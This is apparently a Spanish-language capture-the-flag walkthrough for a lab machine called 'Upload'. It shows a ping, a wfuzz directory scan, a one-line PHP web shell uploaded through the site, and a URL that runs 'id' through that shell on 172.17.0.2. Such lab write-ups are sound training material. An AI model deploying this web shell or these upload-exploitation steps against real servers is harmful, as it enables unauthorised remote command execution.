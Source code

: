 #### INFORMACION DE LA MAQUINA.
#### Maquina Upload.
[LINK DE LA MAQUINA](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ)
#### Dificultad: Muy facil.

---

Enviamos un ping de un paquete para comprobar que la maquina esta activa y lista.
```Linux
Ping -c 1 172.17.0.2
```

Encontraremos el puerto 80 web abierto, por lo cual iremos al buscador y vamos a la pagina.
```Firefox
https://172.17.0.2:80
```
En la pagina se pueden subir archivos asi que vamos a intentar intruir con algun archivo malicioso.
```Linux                                
<?php 
system($_GET[' cmd ']); 
?>
```
Ahora haremos un WFUZZ para intentar encontrar la ruta en donde esos archivos van a parar en el servidor.
```Linux
wfuzz -c --hc 404 -t 200 -w /usr/share/wordlists/dirsbuster/directory-list-2.3-medium.txt http://172.17.0.2/FUZZ
```

Como podremos ver hay una carpeta llamada uploads asi que ahi es donde encontraremos los archivos subidos

Ahora haremos una prueba mediante la url para ejecutar el archivo y pasarle un comando para que interprete.
```Linux
172.17.0.2/uploads/shell.php?cmd=id
```
